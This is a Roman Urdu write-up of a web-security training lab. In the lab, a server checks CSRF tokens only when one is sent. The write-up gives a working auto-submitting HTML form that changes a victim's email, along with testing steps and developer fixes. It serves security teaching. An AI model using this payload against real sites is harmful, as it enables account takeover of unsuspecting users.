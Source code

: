 # 🔐 CSRF Lab: Jab Token Ho Tabhi Server Check Karta Hai

## 🧠 Lab Ka Basic Scene

Yeh lab ek aise CSRF bug ko dikhata hai jahan **server sirf us waqt CSRF token verify karta hai jab wo request mein present ho**. Agar token **missing** ho, to server bina kuch check kiye request accept kar leta hai. Yahi ban jata hai ek **CSRF vulnerability**.

---

## 📌 Aam Zindagi Ka Example:

Soch le ek guard hai jo sirf tabhi ID check karta hai jab tu usay ID dikhata hai. Lekin agar tu bina ID dikhaye nikal jaye to wo kuch nahi kehta. Bas yahi kaam yeh server bhi kar raha hai.

---

## 🔎 Masla Kya Hai?

* CSRF token ka kaam hota hai **unauthorized request** ko rokna.
* Agar token **galat ho** to request reject hoti hai.
* Lekin agar token **missing ho**, aur server **check hi na kare**, to attacker **request bhej ke kaam karwa sakta hai**.

---

## ⚔️ CSRF Attack Ka Tareeqa (jo lab mein kiya gaya)

### ✅ Step 1: Normal Behavior Check Karo

POST request bhejo email change karne ke liye:

```txt
email=new@domain.com&csrf=VALID_TOKEN
```

Galat token do ⇒ request reject hogi.

### ✅ Step 2: Token Ko Hatado

```txt
email=new@domain.com
```

➡️ Request accept ho gayi — **Yeh vulnerability hai**

### ✅ Step 3: Exploit HTML Banao

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="csrfattack@exploit.com">
</form>
<script>
  document.forms[0].submit();
</script>
```

### ✅ Step 4: Exploit Server Pe Host Karo Aur Victim Ko Do

---

## 💥 Real Dunia Mein Aisa Hota Hai?

Bilkul — aise CSRF bugs ab bhi milte hain:

* Purane (legacy) systems mein
* Jahan CSRF token manually lagaya gaya ho
* Jahan har request method (GET/POST) pe protection na ho

**Bug bounty reports** mein aise flaws kaafi bar milte hain.

---

## 🔍 Penetration Tester Kaam Kaise Kare?

### ✅ Practical Testing Steps:

1. Aisi form dhoondo jahan sensitive data change hota ho (email, password)
2. Request ko Burp Suite se intercept karo
3. Dekho CSRF token body/header/cookie mein hai ya nahi
4. Token:

   * Galat do → reject hota hai?
   * Hata do → request accept hoti hai?
5. POST ko GET mein convert karke bhi test karo
6. Agar request accept ho jaye ⇒ vulnerable

### 🧰 Tools:

* Burp Suite (Proxy, Repeater)
* Browser DevTools
* Custom HTML exploit builder

---

## 🚫 Developer Ko Kya Karna Chahiye:

* Token hona bhi chahiye, aur verify bhi hona chahiye
* Sirf `if (csrf)` check na karo — proper validation karo
* Framework ka CSRF middleware (Django, Laravel, etc.) use karo

---

## 🧠 Summary:

> “Yeh lab yeh batata hai ke agar server sirf token ke hone par validation kare — lekin value verify na kare — to hum token hata ke exploit kar sakte hain. Aise bugs aaj bhi hote hain aur pentesting mein inko pakarna zaroori hai.”

